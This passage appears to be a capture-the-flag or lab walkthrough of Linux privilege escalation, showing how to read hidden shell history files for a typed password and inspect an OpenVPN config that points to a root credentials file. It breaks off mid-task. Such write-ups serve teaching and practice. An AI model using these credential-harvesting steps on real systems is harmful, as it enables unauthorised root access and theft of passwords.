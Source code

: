 # Task 16 : Passwords & Keys - History Files
If a user accidentally types their password on the command line instead of into a password prompt, it may get recorded in a history file.

View the contents of all the hidden history files in the user's home directory:
```
cat ~/.*history | less
```
output:
```
mysql -h somehost.local -uroot -ppassword123
exit
cd /tmp
clear
ifconfig
netstat -antp
nano myvpn.ovpn 
bla bla bla...
```
Note that the user has tried to connect to a MySQL server at some point, using the "root" username and a password submitted via the command line. Note that there is no space between the -p option and the password!

Switch to the root user, using the password:
```
su root
```
YAY 😄

# Task 17 : Passwords & Keys - Config Files
Config files often contain passwords in plaintext or other reversible formats.

List the contents of the user's home directory:
```
ls /home/user
```
output:
```
myvpn.ovpn  service  tools
```
Note the presence of a myvpn.ovpn config file. View the contents of the file:
```
cat /home/user/myvpn.ovpn
```
output:
```
client
dev tun
proto udp
remote 10.10.10.10 1194
resolv-retry infinite
nobind
persist-key
persist-tun
ca ca.crt
tls-client
remote-cert-tls server
auth-user-pass /etc/openvpn/auth.txt
comp-lzo
verb 1
reneg-sec 0

```
The file should contain a reference to another location where the root user's credentials can be found. Switch to the root user, using the credentials: